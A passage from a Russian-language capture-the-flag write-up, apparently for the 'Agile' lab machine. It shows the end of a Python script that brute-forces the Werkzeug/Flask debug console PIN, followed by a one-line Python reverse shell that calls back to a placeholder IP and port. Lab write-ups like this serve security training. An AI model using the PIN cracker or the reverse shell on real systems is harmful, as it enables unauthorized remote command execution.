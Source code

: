 ```
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':

    usernames = ['corum','edwards','www-data']
    modnames = ['flask.app', 'werkzeug.debug']
    appnames = ['wsgi_app', 'DebuggedApplication', 'Flask']
    flaskpaths = ['/app/venv/lib/python3.10/site-packages/flask/app.py']
    nodeuuids = ['345052361784']
    machineids = ['ed5b159560f54721827644bc9b220d00superpass.service','ed5b159560f54721827644bc9b220d00']

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')
```

Запускаем скрипт и получаем значение PIN. Получаем доступ к командной строке.

![](../assets/Agile/7.png)

Получим обратную оболочку командой:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR-IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

![](../assets/Agile/8.png)
